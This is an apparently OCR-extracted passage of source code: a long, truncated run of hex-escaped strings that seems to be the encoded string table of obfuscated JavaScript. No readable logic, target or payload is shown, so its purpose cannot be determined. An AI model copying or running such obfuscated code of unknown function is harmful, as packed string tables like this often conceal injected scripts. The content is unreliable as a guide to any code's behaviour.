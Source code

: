 27\x2C\x27\x5C\x64\x5C\x34\x5C\x50\x27\x2C\x27\x5C\x68\x5C\x30\x5C\x30\x27\x2C\x27\x5C\x37\x5C\x42\x5C\x34\x5C\x66\x5C\x36\x5C\x31\x63\x5C\x6B\x5C\x33\x5C\x33\x5C\x38\x27\x2C\x27\x5C\x42\x5C\x34\x5C\x66\x5C\x48\x5C\x39\x5C\x64\x27\x2C\x27\x5C\x64\x5C\x34\x5C\x50\x5C\x31\x6A\x5C\x33\x5C\x32\x5C\x36\x27\x2C\x27\x5C\x34\x5C\x43\x5C\x36\x5C\x65\x5C\x6B\x5C\x61\x5C\x34\x5C\x56\x5C\x31\x63\x5C\x6B\x27\x2C\x27\x5C\x33\x5C\x33\x5C\x38\x27\x2C\x27\x5C\x66\x5C\x33\x5C\x37\x5C\x6B\x5C\x65\x5C\x64\x5C\x37\x5C\x39\x5C\x50\x5C\x33\x27\x2C\x27\x5C\x31\x4E\x5C\x31\x77\x5C\x61\x5C\x31\x7A\x5C\x31\x42\x27\x2C\x27\x5C\x4A\x5C\x6C\x5C\x4A\x27\x2C\x27\x5C\x47\x5C\x41\x5C\x42\x5C\x34\x5C\x39\x5C\x64\x5C\x6C\x5C\x62\x5C\x34\x5C\x66\x27\x2C\x27\x5C\x65\x5C\x43\x5C\x37\x5C\x33\x5C\x61\x5C\x41\x5C\x4A\x5C\x49\x27\x2C\x27\x5C\x31\x30\x5C\x41\x5C\x6E\x5C\x77\x5C\x66\x5C\x33\x5C\x63\x5C\x47\x5C\x41\x27\x2C\x27\x5C\x41\x5C\x4A\x5C\x49\x5C\x4B\x5C\x4A\x5C\x34\x5C\x49\x5C\x4B\x5C\x38\x5C\x39\x27\x2C\x27\x5C\x71\x5C\x72\x5C\x30\x27\x2C\x27\x5C\x7A\x5C\x45\x5C\x30\x27\x2C\x27\x5C\x61\x5C\x65\x5C\x65\x5C\x6B\x27\x2C\x27\x5C\x34\x5C\x43\x5C\x36\x5C\x65\x5C\x6B\x5C\x61\x5C\x34\x5C\x56\x27\x2C\x27\x5C\x38\x5C\x65\x5C\x36\x5C\x37\x27\x2C\x27\x5C\x65\x5C\x55\x5C\x61\x5C\x31\x66\x5C\x34\x5C\x66\x5C\x65\x5C\x43\x5C\x37\x5C\x33\x27\x2C\x27\x5C\x31\x66\x5C\x31\x30\x5C\x61\x5C\x50\x5C\x56\x27\x2C\x27\x5C\x4C\x5C\x38\x5C\x39\x5C\x34\x5C\x61\x5C\x65\x5C\x48\x5C\x6C\x5C\x6A\x5C\x65\x27\x2C\x27\x5C\x32\x5C\x6E\x5C\x4C\x5C\x31\x54\x5C\x31\x6A\x5C\x31\x75\x5C\x32\x33\x5C\x6E\x5C\x4C\x5C\x55\x27\x2C\x27\x5C\x39\x5C\x38\x5C\x48\x5C\x33\x5C\x36\x5C\x6C\x5C\x62\x5C\x65\x5C\x64\x5C\x36\x27\x2C\x27\x5C\x61\x5C\x34\x5C\x6A\x5C\x33\x5C\x61\x27\x2C\x27\x5C\x66\x5C\x33\x5C\x62\x5C\x33\x5C\x64\x5C\x36\x27\x2C\x27\x5C\x37\x5C\x48\x5C\x66\x5C\x39\x5C\x38\x27\x2C\x27\x5C\x31\x30\x5C\x65\x5C\x55\x5C\x31\x54\x5C\x31\x45\x27\x2C\x27\x5C\x37\x5C\x43\x5C\x62\x5C\x62\x5C\x33\x5C\x37\x5C\x37\x27\x2C\x27\x5C\x6A\x5C\x33\x5C\x63\x5C\x65\x5C\x66\x5C\x33\x5C\x31\x63\x5C\x33\x5C\x64\x5C\x38\x27\x2C\x27\x5C\x62\x5C\x65\x5C\x42\x5C\x6B\x5C\x61\x5C\x33\x5C\x36\x5C\x33\x27\x2C\x27\x5C\x34\x5C\x43\x5C\x61\x5C\x36\x27\x2C\x27\x5C\x47\x5C\x41\x5C\x6B\x5C\x39\x5C\x31\x30\x5C\x39\x5C\x6C\x5C\x42\x5C\x34\x5C\x39\x27\x2C\x27\x5C\x64\x5C\x6C\x5C\x77\x5C\x33\x5C\x66\x5C\x65\x5C\x41\x5C\x4A\x5C\x49\x27\x2C\x27\x5C\x36\x5C\x34\x5C\x6A\x5C\x33\x5C\x6A\x27\x2C\x27\x5C\x43\x5C\x66\x5C\x48\x5C\x33\x5C\x66\x5C\x6C\x5C\x62\x5C\x65\x5C\x64\x5C\x36\x27\x2C\x27\x5C\x47\x5C\x41\x5C\x6B\x5C\x39\x5C\x31\x30\x5C\x39\x5C\x6C\x5C\x77\x5C\x33\x5C\x66\x27\x2C\x27\x5C\x65\x5C\x6C\x5C\x63\x5C\x61\x5C\x65\x5C\x55\x5C\x41\x5C\x49\x5C\x4B\x5C\x38\x27\x2C\x27\x5C\x6B\x5C\x39\x5C\x31\x30\x5C\x39\x5C\x6C\x5C\x77\x5C\x33\x5C\x66\x5C\x65\x5C\x6C\x27\x2C\x27\x5C\x62\x5C\x61\x5C\x34\x5C\x37\x5C\x37\x5C\x47\x5C\x41\x5C\x6B\x5C\x65\x5C\x37\x27\x2C\x27\x5C\x36\x5C\x6C\x5C\x63\x5C\x39\x5C\x61\x5C\x36\x5C\x33\x5C\x66\x5C\x6C\x5C\x61\x27\x2C\x27\x5C\x39\x5C\x64\x5C\x31\x30\x5C\x41\x5C\x6E\x5C\x77\x5C\x66\x5C\x33\x5C\x63\x5C\x47\x27\x2C\x27\x5C\x77\x5C\x43\x5C\x42\x5C\x6A\x5C\x64\x5C\x34\x5C\x39\x5C\x61\x5C\x41\x5C\x6E\x27\x2C\x27\x5C\x66\x5C\x33\x5C\x38\x5C\x6C\x5C\x42\x5C\x33\x5C\x36\x5C\x34\x5C\x41\x5C\x49\x27\x2C\x27\x5C\x41\x5C\x6B\x5C\x65\x5C\x37\x5C\x36\x5C\x6C\x5C\x36\x5C\x39\x5C\x36\x5C\x61\x27\x2C\x27\x5C\x33\x5C\x41\x5C\x49\x5C\x4B\x5C\x34\x5C\x6E\x5C\x77\x5C\x66\x5C\x33\x5C\x63\x27\x2C\x27\x5C\x4A\x5C\x38\x5C\x39\x5C\x50\x5C\x49\x27\x2C\x27\x5C\x4C\x5C\x6B\x5C\x39\x5C\x31\x30\x5C\x39\x5C\x6C\x5C\x42\x5C\x34\x5C\x39\x5C\x64\x27\x2C\x27\x5C\x62\x5C\x61\x5C\x65\x5C\x37\x5C\x33\x5C\x37\x5C\x36\x27\x2C\x27\x5C\x4C\x5C\x55\x5C\x39\x5C\x38\x5C\x48\x5C\x33\x5C\x36\x5C\x6C\x5C\x36\x5C\x39\x27\x2C\x27\x5C\x36\x5C\x61\x5C\x33\x27\x2C\x27\x5C\x4C\x5C\x31\x54\x5C\x31\x6A\x5C\x31\x75\x5C\x32\x33\x27\x2C\x27\x5C\x31\x54\x5C\x64\x5C\x39\x5C\x33\x5C\x31\x43\x27\x2C\x27\x5C\x61\x5C\x31\x74\x5C\x43\x5C\x31\x6A\x5C\x56\x27\x2C\x27\x5C\x31\x4E\x5C\x32\x74\x5C\x66\x5C\x39\x5C\x31\x77\x27\x2C\x27\x5C\x42\x5C\x32\x34\x5C\x65\x5C\x64\x5C\x31\x69\x27\x2C\x27\x5C\x31\x4A\x5C\x31\x4E\x5C\x65\x5C\x31\x76\x5C\x32\x27\x2C\x27\x5C\x31\x72\x5C\x32\x74\x5C\x32\x63\x5C\x31\x43\x5C\x31\x76\x27\x2C\x27\x5C\x33\x5C\x37\x5C\x31\x6D\x5C\x55\x5C\x39\x5C\x38\x5C\x36\x5C\x77\x5C\x47\x27\x2C\x27\x5C\x31\x6D\x5C\x61\x5C\x33\x5C\x63\x5C\x36\x5C\x47\x27\x2C\x27\x5C\x37\x5C\x62\x5C\x66\x5C\x33\x5C\x33\x5C\x64\x27\x2C\x27\x5C\x63\x5C\x65\x5C\x62\x5C\x43\x5C\x37\x27\x2C\x27\x5C\x36\x5C\x77\x5C\x43\x5C\x42\x5C\x6A\x5C\x41\x5C\x49\x5C\x4B\x5C\x34\x5C\x6E\x27\x2C\x27\x5C\x34\x5C\x61\x5C\x36\x5C\x47\x5C\x41\x27\x2C\x27\x5C\x34\x5C\x37\x5C\x37\x5C\x47\x5C\x41\x5C\x63\x5C\x33\x5C\x34\x5C\x36\x5C\x43\x27\x2C\x27\x5C\x4B\x5C\x77\x5C\x72\x5C\x6E\x5C\x62\x5C\x61\x5C\x34\x5C\x37\x5C\x37\x5C\x47\x27\x2C\x27\x5C\x6C\x5C\x77\x5C\x33\x5C\x66\x5C\x65\x27\x2C\x27\x5C\x65\x5C\x37\x5C\x36\x5C\x6E\x5C\x4C\x5C\x66\x5C\x33\x5C\x61\x5C\x34\x5C\x36\x27\x2C\x27\x5C\x33\x5C\x38\x5C\x6C\x5C\x55\x5C\x66\x5C\x34\x5C\x6B\x27\x2C\x27\x5C\x37\x5C\x47\x5C\x79\x27\x2C\x27\x5C\x31\x74\x5C\x37\x5C\x56\x5C\x61\x5C\x31\x71\x27\x2C\x27\x5C\x4B\x5C\x37\x5C\x6B\x5C\x34\x5C\x64\x5C\x49\x27\x2C\x27\x5C\x31\x72\x5C\x33\x5C\x34\x5C\x36\x5C\x43\x5C\x66\x5C\x33\x5C\x38\x5C\x6E\x5C\x31\x4F\x27\x2C\x27\x5C\x65\x5C\x37\x5C\x36\x27\x2C\x27\x5C\x65\x5C\x41\x5C\x49\x5C\x4B\x5C\x38\x5C\x39\x5C\x50\x5C\x6E\x5C\x62\x5C\x61\x27\x2C\x27\x5C\x34\x5C\x37\x5C\x37\x5C\x47\x5C\x41\x5C\x6B\x5C\x39\x5C\x31\x30\x5C\x39\x5C\x6C\x27\x2C\x27\x5C\x77\x5C\x33\x5C\x66\x5C\x65\x5C\x6C\x5C\x36\x5C\x77\x5C\x43\x5C\x42\x5C\x6A\x27\x2C\x27\x5C\x47\x5C\x41\x5C\x6B\x5C\x65\x5C\x37\x5C\x36\x5C\x6C\x5C\x63\x5C\x39\x5C\x61\x27\x2C\x27\x5C\x36\x5C\x33\x5C\x66\x5C\x6C\x5C\x61\x5C\x39\x5C\x64\x5C\x31\x30\x5C\x41\x5C\x6E\x27\x2C\x27\x5C\x6C\x5C\x36\x5C\x34\x5C\x48\x5C\x41\x5C\x49\x27\x2C\x27\x5C\x38\x5C\x34\x5C\x36\x5C\x33\x5C\x41\x5C\x49\x27\x2C\x27\x5C\x4C\x5C\x66\x5C\x